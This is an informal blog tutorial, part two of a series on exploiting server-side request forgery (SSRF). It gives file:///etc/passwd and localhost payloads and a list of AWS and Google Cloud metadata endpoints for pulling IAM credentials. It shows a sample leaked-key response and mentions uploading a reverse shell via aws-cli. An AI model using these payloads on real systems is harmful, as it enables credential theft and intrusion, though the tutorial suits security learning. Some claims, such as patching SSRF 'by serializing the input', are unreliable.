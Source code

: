 # Introducction
hey folks! what’s up? This is my second artice about ssrf exploitation if you doesn’t read part 1 you can read it from in this article here I divided ssrf there in two types according to my resarch blind ssrf and untrusted input So, i picked up remote code execution via untrusted input in ssrf and also discuss about role of ssrf in xxe and request smuggling and next article will be about all of chaining bugs with ssrf :p
I also wanna cover Os command injection and bypassing admin panel dashboard with server side request forgery but for the sake of length i decided to shortern this article

# Exploitation

This post is gonna all about obtaining remote code execution with ssrf since it’s not bigginer friendly article i hope so you have clear concept about url terminology if you have any uncleared concept about methedology of url then you can read it from the article written by my friend here
For the concept of ssrf back end db and how data fetch from url is so important without these concept you can’t fully undertsand ssrf let me tell you a example:-
*this is not real word example*
suppose you’r friend asking a birthday gift from you and you send it via from an courier let’s talk this example in application way in this example you are back end, let’s say courierman is server and your friend is user what’s happening here same as above the example you (back end) giving data to server(courier man) but server doesn’t have understanding of giving data his job is to send data taken from backbend and serving to user. User fetch data from server by issuing requests that’s all
Exploitation
every web server contains confidential files which which is used for db-config,admin-config,phpinfo(),etc. since we know how a normal user fetch data from server by issuing a request let’s take an anothher example suupose we have a url :
https://www.forttesting.com?file=500.png
here we have a url what’s happening here a parameter names file is fetching 500.png file from webserver but happens if we replace it to
https://www.forttesting.com?file=file:///etc/passwd
It gives us files of users on server file:// is a protocal we talk about this protocols in later sections It gives us everything blindly if there is no input sanitization like
https://www.forttesting.com?file=http://localhost
In above piece of exploit if there is ssrf vulnerablity present on server we can download full data of localhost by using wget that was basic extraction of files but this will be considered as code injection So. for obtaining rce you have to some knowledge about cloud computing if you don’t have don’t worry read it later there are mostly two type of cloud plateforms used widely google cloud and amazon web services let’s talk about amazon web services
http://169.254.169.254/latest/meta-data/iam/security-credentials/
this endpoint will leak the list of roles of user with their security credentials there are other many endpoint by exploiting we can obtain rce in aws but this one is my favourite so i wrote this in article okay! here is list of endpoint of aws we can disclose while exploiting ssrf
```
http://instance-data
http://169.254.169.254
http://169.254.169.254/latest/user-data
http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/public-keys/
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access
http://169.254.169.254/latest/dynamic/instance-identity/document
payload-credit- cobalt.io
```
here i found few payloads on cobalt o i added in articles So after issuing
https://www.forttesting.com?file=http://169.254.169.254/latest/meta-data/iam/security-credentials
you will get access key id, password, etc. like this:
**{
“LastUpdated” : “2019–08–03T20:42:03Z”,“Type” : “AWS-HMAC”,
“AccessKeyId” : “ASIA5A6IYGGDLBWIFH5UQ”,
“SecretAccessKey” : “sMX7//Ni2tu2hJua/fOXGfrapiq9PbyakBcJunpyR”,“Token” : “AgoJb3JpZ2luX2VjEH0aCXVzLWVhc3QtMSJHMEUCIQDFoFMUFs+lth0JM2lEddR/8LRHwdB4HiT1MBpEg8d+EAIgCKqMjkjdET/XjgYGDf9/eoNh1+5Xo/tnmDs“Expiration” : “2019–08–04T03:16:50Z”
}**
then just setup aws-cli and hack the web application byt uploading reverse shell that’s all about aws cli we can hack the user roles and simply hacking the web application of aws now in google cloud method is same of extracting informattion and files but endpoint is unique

```
http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-id
that’s how rce works in ssrf we can patch ssrf by serializing the input Now, how ssrf works with other bugs let’s consider http request smuggling we send data via chunked but how ssrf plays a vital role in this vulnerablity? as i said earlier sever is very innocent who doesn’t know what to send In request smuggling vulnerablity the user manuplates the back end by isuuing chunked and craft malicious header so with the help of ssrf http request smuggling can extract dangreous files which leads to harm to the website
I also wanna tak about xml injection with ssrf but since, article is getting longer so, i end this article here and check the resouirces they have awesome writeups about ssrf
https://blog.assetnote.io/2021/01/13/blind-ssrf-chains/
```
For further refrence:

My First Bug: Blind SSRF Through Profile Picture Upload
A writeup of my first bug!
infosecwriteups.com

SSRF (Server Side Request Forgery)
If the server is correctly protected you could bypass all the restrictions by exploiting an Open Redirect inside the…
book.hacktricks.xyz

How To: Server-Side Request Forgery (SSRF)
Server-Side Request Forgery, SSRF for short, is a vulnerability class that describes the behavior of a server making a…
www.hackerone.com





